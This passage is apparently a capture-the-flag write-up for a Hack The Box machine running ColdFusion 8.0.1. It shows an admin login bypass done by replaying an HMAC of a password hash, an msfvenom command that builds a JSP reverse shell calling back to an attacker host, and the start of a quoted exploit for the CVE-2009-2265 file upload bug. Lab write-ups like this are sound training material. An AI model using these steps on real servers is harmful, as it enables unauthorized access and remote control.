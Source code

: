 ![arc-6](https://user-images.githubusercontent.com/87711310/216760414-a541cec7-e92d-48ef-8d0a-7c1d553a3572.png)

I can enter `happyday` into the password field and it successfully logs in.

However, the other way involves using JavaScript's `document.loginform.salt.value` to get the hash that's submitted to the webpage before being HMAC-ed.

For doing this, you can go to the Firefox developer tools, and use the following code in the console to get back a hex-ed value.

```
console.log(hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'));
```

Now, after running the above code in the developer tools, you'll get a hash, which you can use Burp, to intercept the trafic, sent it to the repeater and change the value of the `cfadminPassword` to the vlaue you retrived from running the above script and hit send.

Once you do that wait for a few moments and you'll see a `200 OK` response 

![arc-7](https://user-images.githubusercontent.com/87711310/216760415-65bb03d8-99cc-43e6-8b31-ddc5b8646abf.png)

And visiting the webpage, I was in the Admin's account and was displayed a dashboard.

![arc-8](https://user-images.githubusercontent.com/87711310/216760429-ca1dd989-e49b-4bb7-9b1a-8c231ed8b0f7.png)

## Gaining Initial Foothold.
Now, that we're into the admin panel, we can try to upload a reverse shell and run it to obtain a shell on out machine. 

To do that go to `Scheduled Tasks` and click on `Schedule New Task` to upload file.

![arc-9](https://user-images.githubusercontent.com/87711310/216760431-f6f95931-480b-4a4b-a740-33a4096f2adc.png)

For this box, I used [Arrexal’s exploit](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload). He created a custom exploit for this box particularly. So Kudos to him!!

Now, I used `msfvenom` to create a `java` payload.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Artic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 > shell.jsp

Payload size: 1496 bytes
```
Before running the exploit, lets take a look at it. I saved this exploit as `arb-file-exploit.py` on my machine.
```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
```